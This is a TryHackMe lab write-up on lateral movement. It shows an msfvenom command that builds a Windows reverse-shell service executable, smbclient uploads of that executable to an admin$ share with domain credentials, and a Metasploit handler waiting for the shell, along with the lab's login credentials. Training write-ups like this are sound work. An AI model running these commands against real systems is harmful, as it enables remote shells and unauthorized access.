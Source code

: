 # Lateral Movement and Pivoting

## Task 1  Introduction
```bash
┌──(kali㉿kali)-[~/TryHackMe]
└─$ nslookup thmdc.za.tryhackme.com
Server:         10.200.51.101
Address:        10.200.51.101#53

Name:   thmdc.za.tryhackme.com
Address: 10.200.51.101
```
+ Connection to `http://distributor.za.tryhackme.com/creds` get credentials press button 
+ Your credentials have been generated: Username: arthur.campbell Password: Pksp9395

## Task 2  Moving Through the Network
+ Click and continue learning!

## Task 3  Spawning Processes Remotely
```bash
User: ZA.TRYHACKME.COM\t1_leonard.summers
Password: EZpass4ever
```
+ Generate MsfVenom
```bash
┌──(kali㉿kali)-[~/TryHackMe]
└─$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=lateralmovement LPORT=4444 -o dodol.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe-service file: 15872 bytes
Saved as: dodol.exe

┌──(kali㉿kali)-[~/TryHackMe]
└─$ smbclient -c 'put dodol.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
Password for [ZA\t1_leonard.summers]:
do_connect: Connection to thmiis.za.tryhackme.com failed (Error NT_STATUS_UNSUCCESSFUL)

┌──(kali㉿kali)-[~/TryHackMe]
└─$ smbclient -c 'put dodol.exe' -U t1_leonard.summers -W ZA '//10.200.51.201/admin$/' EZpass4ever
Password for [ZA\t1_leonard.summers]: 
putting file dodol.exe as \dodol.exe (7.7 kb/s) (average 7.7 kb/s)



msf6 exploit(multi/handler) > options
Module options (exploit/multi/handler):
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
Payload options (windows/shell/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.50.49.50      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:
```